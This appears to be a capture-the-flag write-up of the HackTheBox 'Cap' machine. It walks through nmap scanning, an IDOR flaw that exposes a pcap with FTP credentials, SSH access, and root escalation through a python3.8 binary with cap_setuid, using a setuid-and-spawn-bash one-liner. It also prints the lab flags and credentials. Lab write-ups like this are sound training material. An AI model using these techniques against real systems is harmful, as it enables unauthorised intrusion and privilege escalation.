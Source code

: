 
<p align="center">
  <img src="./screenshots/cap_logo.png" alt="cap_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Cap Linux
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities; Privilege Escalation
- 💻 **Platform:** Linux

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#entry-point)
- [Initial Access](#initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Capabilities exploitation](#-capabilities-exploitation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{15782241f14c7bf2aa620b67fa9a4115}`  |
|   Root Flag   | `flag{fc5860b0afc49545302d736baf191603}`  |
|  Credentials  | `nathan:Buck3tH4TF0RM3!`                  |
|   Technique   | Capabilities-based Privilege Escalation   |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.245 cap.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services:

```bash

sudo nmap -sVC -p- -vv -T5 cap.htb -oN tcp_scan_cap

```

> Result:

```bash

21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn

```

> From the scan results I see three open ports:

- `21` - `ftp`
- `80` - `web`
- `22` - `ssh`

> Open the web application in the browser:

![net_dashboard](./screenshots/net_dashboard.png)

> I see a dashboard for managing network data for user `nathan`:

## 🚪 Entry Point

> I go to the `security snapshot` section:

![snapshot](./screenshots/snapshot.png)

> I see a panel from which I can download a ready `.pcap` file with captured traffic of user `nathan`:

![snapshot_pcap](./screenshots/snapshot_pcap.png)

> The file can be downloaded and opened in `wireshark` to analyze the intercepted traffic:

![pcap_2](./screenshots/pcap_2.png)

> There is no useful information in the intercepted traffic.

> The address of the current panel page from which I downloaded the `.pcap` file has the following url - `http://cap.htb/data/4`
> The `4` parameter clearly points to some scanning ID for the current user `nathan`.

> I try to access other scanning results by replacing the ID, for example, with `0`:

![pcap_0](./screenshots/pcap_0.png)

> This `.pcap` file already contains interesting information intercepted in the `ftp` protocol.
> I got the user credentials - `nathan`:`Buck3tH4TF0RM3!`

---

**Note:** This type of vulnerability is called `IDOR (Insecure Direct Object References)`. This is a vulnerability in which a hacker has the ability to access objects (files,
accounts, data, orders, etc.) by changing identifiers (ID) directly in requests without proper access rights verification. That is, the `IDOR` vulnerability itself is an
`insecure direct object reference`. If there is no authorization check on the server - that is, the server does not check whether this is my data, then I get access to someone else's
information. In this case, to someone else's traffic scanning file that contains sensitive data.

---

## 🔓 Initial Access

> I use the received credentials of the user `nathan` and try to log in via `ssh` to the system:

```bash

ssh nathan@cap.htb

```
> Result:

![nathan_ssh](./screenshots/nathan_ssh.png)

> I get first flag:

```bash

nathan@cap:~$ cat user.txt

15782241f14c7bf2aa620b67fa9a4115

nathan@cap:~$

```
> user flag - `15782241f14c7bf2aa620b67fa9a4115`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> Let's list the executable files for which `POSIX capabilities` are installed:

```bash

nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$

```
> Ok, I see the executable `python3.8` with `cap_setuid+eip` capabilities set. This is a potential vector for privilege escalation
> since such `cap_setuid` permission allows a local user to change the `UID` of the process and set it to, for example, `0` - that is, `root`.
> `Python3.8` is an interpreted language and setting such `capabilities` is a serious error for executables.

---
### 🔑 Capabilities exploitation

> Using this feature we simply call `setuid(0)` inside the python script and change our own `uid` to `0`:

```bash

/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

```
> Result:

```bash

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~#

```
> get root flag:

```bash

root@cap:~# cd /root
root@cap:/root# ls -lah
total 36K
drwx------  6 root root 4.0K Jul 13 12:06 .
drwxr-xr-x 20 root root 4.0K Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4.0K May 23  2021 .cache
drwxr-xr-x  3 root root 4.0K May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 13 17:37 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jul 13 12:06 root.txt
drwxr-xr-x  3 root root 4.0K May 23  2021 snap
root@cap:/root# cat root.txt
fc5860b0afc49545302d736baf191603
root@cap:/root#

```
> root flag - `fc5860b0afc49545302d736baf191603`

---
## 🧠 Conclusion

> During the machine walkthrough, the web vulnerability `IDOR` was detected in the control panel in the `security snapshot` section. By changing the scan ID from `4` to `0`, access was gained to
> someone else's `.pcap` scan file, in which the user credentials of `nathan` were found, allowing initial access to the system via `ssh`. After running `enumeration`, the executable file
> `python3.8` was found, for which insecure capabilities `cap_setuid` were set, allowing the current user's `uid` to be changed to `0`, thereby gaining access to the shell with `root` privileges.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
